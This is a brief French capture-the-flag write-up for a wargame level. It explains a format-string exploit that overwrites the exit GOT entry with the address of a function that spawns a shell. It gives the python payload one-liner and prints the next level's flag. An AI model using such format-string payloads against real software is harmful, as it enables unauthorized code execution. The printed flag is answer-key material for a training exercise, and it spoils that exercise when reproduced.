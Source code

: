 ## GET Flag

L'exploit effectue pour ce niveau est semblable au precedent. Cependant la variable globale a modifier est celle a laquelle exit va jump.
Cette adresse est: `\x38\x98\x04\x08`. Il est possible de la remplacer par l'adresse de la fonction o.
La fonction o va ensuite ouvrir un shell.

`python -c 'print "\x38\x98\x04\x08" + 2*"%12x" + "%134513800x" + "%n"' > exploit`

### Flag

```
level6
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
